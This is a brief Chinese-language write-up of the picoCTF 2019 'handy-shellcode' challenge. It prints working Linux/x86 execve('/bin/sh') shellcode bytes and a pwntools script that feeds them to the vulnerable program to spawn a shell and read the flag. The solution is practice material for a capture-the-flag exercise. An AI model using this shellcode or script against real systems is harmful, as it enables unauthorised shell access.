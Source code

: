 # handy-shellcode - Points: 50
### This program executes any shellcode that you give it. Can you spawn a shell and use that to read the flag.txt? You can find the program in /problems/handy-shellcode_3_1a2e95a810eefe4a5994631812c0b8af on the shell server. Source.

這題就是要我們塞一段shellcode去開shell

網路上一堆程式可以參考只要搜尋搜尋Linux/x86 - execve(/bin/sh)就會有很多結果可以參考

當然也可以自己手刻組合語言利用pwntool送

而我這邊是直接在網路上找到一段assembly code

送過去之後就會噴flag出來了

```python
from pwn import  *

path = "/problems/handy-shellcode_3_1a2e95a810eefe4a5994631812c0b8af"
payload = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"

py = s.run('cd ' + path + ';' + './vuln')
#print py.recv()
py.recvuntil(':')
py.sendline(payload)
py.interactive()
```
![image](https://github.com/bohsiang/CTF_practice/blob/master/picoCTF2019/picture/handy-shellcode.PNG)


